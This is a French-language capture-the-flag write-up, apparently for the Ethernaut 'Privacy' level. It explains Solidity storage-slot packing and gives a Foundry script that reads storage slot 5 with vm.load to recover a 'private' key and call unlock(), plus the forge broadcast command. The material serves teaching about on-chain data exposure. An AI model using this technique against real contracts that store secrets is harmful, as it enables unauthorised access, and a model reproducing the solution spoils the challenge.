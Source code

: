 
# Privacy Smart Contract


### Analyse et emballage des emplacements:

En examinant attentivement la documentation Solidity, j'ai découvert que les variables de taille statique (à l'exception des types de tableau dynamiques et de mappage) sont disposées de manière contiguë dans le stockage, à partir de la position 0. Plusieurs éléments nécessitant moins de 32 octets sont regroupés dans un seul emplacement de stockage si possible.

Cela signifie que chaque type de variable dans Solidity est stocké sur des emplacements de stockage et que chaque emplacement a une taille de 32 octets. Si une variable est plus petite que 32 octets, l'EVM essaie de regrouper plusieurs variables dans un seul emplacement pour optimiser le stockage.

### Exploitation de la fonction unlock():

La fonction unlock() s'est révélée être la clé du succès. Elle compare la valeur stockée dans data[2] (emplacement 5) à une clé bytes16 et désactive le verrouillage si elles correspondent.

Création de l'exploit:

Avec ces informations en main, j'ai élaboré un script astucieux pour exploiter le contrat :

Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "../instances/instancePrivacy.sol";

contract POC is Script {

    Privacy level12 = Privacy(0xaDeD3F5a4bf3951994F75b2bf1F4b62C320223D6);

    function run() external{
        vm.startBroadcast();
        bytes32 myKey = vm.load(address(level12), bytes32(uint256(5)));
        level12.unlock(bytes16(myKey));
        vm.stopBroadcast();
    }

### Faire 
```bash
forge script ./script/Privacy.sol --private-key $PRIVATE_KEY --broadcast --rpc-url $INFURA_RPC_URL
```

#### The script will succeed and the instance can now be submitted to finish the level. The locked status can be queried by a call to the contract or by using your console await contract.locked() which will return false.



